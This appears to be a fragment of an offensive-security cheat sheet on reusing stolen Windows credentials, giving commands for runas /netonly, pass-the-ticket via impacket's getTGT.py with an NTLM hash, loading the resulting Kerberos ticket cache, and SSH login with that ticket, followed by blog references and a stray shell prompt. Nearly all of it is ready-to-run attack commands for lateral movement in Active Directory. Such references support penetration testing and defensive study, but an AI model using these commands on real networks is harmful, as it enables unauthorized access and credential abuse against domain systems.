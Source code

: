 ## Runas 

```powershell
PS C:\> runas /netonly /user:DOMAIN\username "cmd.exe"
PS C:\> runas /noprofil /netonly /user:DOMAIN\username cmd.exe
```

## Pass the Ticket

```powershell
python3 getTGT.py -hashes aad3b435b51404eeaad3b435b51404ee:B65039D1C0359FA797F88FF06296118F domain.local/user
[*] Saving ticket in user.ccache
cp user.ccache /tmp/krb5cc_0
export KRB5CCNAME=/tmp/krb5cc_0
klist
```

## SSH

:warning: You cannot pass the hash to SSH, but you can connect with a Kerberos ticket (Which you can get by passing the hash!

```ps1
cp user.ccache /tmp/krb5cc_1045
ssh -o GSSAPIAuthentication=yes user@domain.local -vv
```

## References

- [Ropnop - Using credentials to own Windows boxes](https://blog.ropnop.com/using-credentials-to-own-windows-boxes/)
- [Ropnop - Using credentials to own Windows boxes Part 2](https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/)
- [Gaining Domain Admin from Outside Active Directory](https://markitzeroday.com/pass-the-hash/crack-map-exec/2018/03/04/da-from-outside-the-domain.html)

[DC01]: PS>